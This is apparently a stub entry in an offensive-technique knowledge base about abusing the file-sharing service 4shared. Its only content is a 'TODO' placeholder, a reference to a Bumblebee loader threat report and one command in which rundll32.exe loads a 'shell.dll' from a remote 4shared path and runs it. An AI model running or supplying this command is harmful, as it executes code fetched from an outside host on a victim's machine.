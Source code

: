 # 4shared

TODO: Fill in this info

```
C:\> rundll32.exe \\<4shared_link>\shell.dll,Main
```

---
## References

- [[DLL Execution]]

- [Bumblebee Loader Resurfaces in New Campaign](https://intel471.com/blog/bumblebee-loader-resurfaces-in-new-campaign)